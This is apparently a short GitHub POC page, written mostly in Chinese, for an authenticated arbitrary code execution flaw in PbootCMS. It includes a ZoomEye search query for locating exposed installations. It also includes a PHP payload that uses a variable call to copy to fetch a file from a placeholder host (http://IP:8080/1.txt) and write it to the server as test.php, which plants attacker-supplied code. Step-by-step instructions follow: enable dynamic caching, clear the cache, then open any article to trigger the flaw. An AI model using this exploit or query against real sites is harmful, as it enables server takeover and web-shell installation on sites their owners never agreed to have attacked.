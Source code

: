 ## PbootCMS全版本后台通杀任意代码执行漏洞

## ZoomEye
```
app:"PbootCMS"
```

## poc
```
<?php

$test="copy";

$test("http://IP:8080/1.txt","test.php");

?>
```
![image](https://github.com/wy876/POC/assets/139549762/59c806d4-0ad6-41fd-b63e-8fed7966261f)

然后来到全局配置-配置参数

打开动态缓存(如果本就打开 那则不需要打开) 点击右上角的清除缓存
![image](https://github.com/wy876/POC/assets/139549762/4e5aeaab-c7c8-4fd2-af08-c16f922eb3ec)

![image](https://github.com/wy876/POC/assets/139549762/e96a68d8-205e-4aee-8fd3-e9177a868f40)

然后随便点击任意文章，触发漏洞

![image](https://github.com/wy876/POC/assets/139549762/0e4b0c28-99b4-405c-9e37-be7d1d55bcc9)
